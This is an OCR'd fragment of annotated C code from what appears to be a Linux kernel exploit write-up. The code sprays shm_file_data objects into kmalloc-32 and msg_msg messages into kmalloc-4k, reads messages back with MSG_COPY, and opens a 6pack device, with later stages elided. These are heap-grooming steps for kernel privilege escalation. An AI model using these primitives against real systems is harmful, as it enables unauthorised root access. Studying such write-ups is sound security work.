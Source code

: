 ```c
}


void *recv_msg(int qid, size_t size, int type)
{
    void *memdump = malloc(size);

    if (msgrcv(qid, memdump, size, type, IPC_NOWAIT | MSG_COPY | MSG_NOERROR) < 0)
    {
        perror("[X] msgrcv");
        return NULL;
    }

    return memdump;
}


void alloc_shm(int i)
{
    shmid[i] = shmget(IPC_PRIVATE, 0x1000, IPC_CREAT | 0600);

    if (shmid[i]  < 0)
    {
        perror("[X] shmget fail");
        exit(1);
    }

    shmaddr[i] = (void *)shmat(shmid[i], NULL, SHM_RDONLY);

    if (shmaddr[i] < 0)
    {
        perror("[X] shmat");
        exit(1);
    }
}

[...]

puts("[*] Spraying shm_file_data in kmalloc-32...");
for (int i = 0; i < 100; i++)
    alloc_shm(shmid[i]); 					// [1]

puts("[*] Spraying messages in kmalloc-4k...");
for (int i = 0; i < N_MSG; i++)
    alloc_msg_queue_A(i); 					// [2]

for (int i = 0; i < N_MSG; i++)
    send_msg(qid_A[i], 0x1018, 1, 'A' + i); // [3]

recv_msg(qid_A[0], 0x1018, 0); 				// [4]
ptmx = init_sixpack(); 						// [5]

[...]
```
